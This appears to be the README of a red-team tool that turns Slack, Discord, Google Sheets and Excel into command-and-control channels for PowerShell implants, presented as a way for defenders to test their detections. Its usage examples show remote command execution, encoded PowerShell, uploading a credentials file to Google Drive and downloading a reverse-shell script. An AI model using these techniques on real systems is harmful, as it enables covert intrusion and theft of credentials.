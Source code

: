 # SaaS-Squash Overview

<img src="https://raw.githubusercontent.com/TechRinger/media/main/images/SaaS-Squash.png" width="50%">

This is a collection of SaaS apps that can be used as C2 servers that have been used by threat actors in the past. This is not an exhaustive list, but will continue to add integrations as they are found. The main goal is on this app is to lower skill level required for defenders to be able to test their security controls against known C2 infrastructure.

This is designed to be as straight forward as possible and does not use any EDR or firewall bypass techniques when building/compiling the executable. This is to ensure that the payloads are as easy to detect as possible while trying to mimic the real world as techniques.

## Disclaimer

This is for educational purposes only. I am not responsible for any damage caused by the use of this tool. Please use responsibly.

## Current Integrations

1. [Slack](<https://slack.com/>)
2. [Google Sheets](<https://www.google.com/sheets>)
3. [Office 365 Excel](<https://www.office.com/>)
4. [Discord](<https://discord.com/>)

## To Do

- [X] Release the first version
- [X] Change Google Drive to use filename instead of file ID
- [ ] Get the Google Sheets HTTP3/QUIC working
- [ ] Get Slack Web API working (currently working with RTM)
- [ ] Add Pastebin, Gists, and other file sharing apps
- [ ] Add Telegram, Twitter, and other social media apps
- [ ] Add more Office 365 apps
- [ ] Add more Google apps
- [ ] More to come...

## Configuration

See Wiki for configuration details: <https://github.com/TechRinger/SaaS-Squash/wiki>

## How to use

Each time the app is launched it will create a 8 character hex UUID to let the endpoint know if the commands are meant for it to execute or not.  If the SaaS app has other ways to differentiate the clients (e.g. they each have a seperate speadsheet page) then the UUID isn't needed.  When it disocers a command it will check to see if it's base64 incoded, if so it will run it as a Powershell encoded command.  If it's not base64 encoded it will run it as a normal command.  The following commands are supported:

1. Discord, Slack example:  in the following example the client UUID is `60d45c81` and we want to tell the client to download the last attachment from the channel.  Following the UUID (space is opotional) you can enter the BOT UUID + COMMAND:  
   - Download example: `60d45c81 download`
   - Upload example of README.md: `60d45c81 download README.md`
   - Execute whois example: `60d45c81 whois`
   - Execute PowerShell encoded command example to get the public IP ((Invoke-WebRequest -URI https://icanhazip.com/).Content): `60d45c81 KABJAG4AdgBvAGsAZQAtAFcAZQBiAFIAZQBxAHUAZQBzAHQAIAAtAFUAUgBJACAAaAB0AHQAcABzADoALwAvAGkAYwBhAG4AaABhAHoAaQBwAC4AYwBvAG0ALwApAC4AQwBvAG4AdABlAG4AdAA=`
1. O365 Excel, Google Sheets exapmle: both of these apps create spreadsheets to track endpoints connections so the UUID isn't needed.  Instead the command to get executed goes in Column A and the return value is in Column B.  These each use the designated file storage location to upload and download files (e.g. Google Drive, OneDrive, etc.)


| Example | Column A | Column B |
| -------- | -------- | -------- |
|Upload example   |upload;/etc/http3/credentials | File Uploaded to: https://drive.google.com/drive/u/0/folders/1C5C23sa8OeDqNNRc-OdjL4WcjVB4pFAPe|
|Google download (uses file ID) | download;1I80EO2PYK_-ahp7q_hsVQyjKmy23J67L;reverse.ps1|File Downloaded|
|O365 download (uses file name) | download;script.txt|File Downloaded|
| Cmd example         | whoami   | tim|
| Powershell encoded command Example | KABJAG4AdgBvAGsAZQAtAFcAZQBiAFIAZQBxAHUAZQBzAHQAIAAtAFUAUgBJACAAaAB0AHQAcABzADoALwAvAGkAYwBhAG4AaABhAHoAaQBwAC4AYwBvAG0ALwApAC4AQwBvAG4AdABlAG4AdAA= | 52.123.5.2 |

## Donation

If you like what I've done and would like to donate, click the link below

[PayPal Donation](<https://www.paypal.com/donate/?hosted_button_id=VN9G973VD8HRA>)
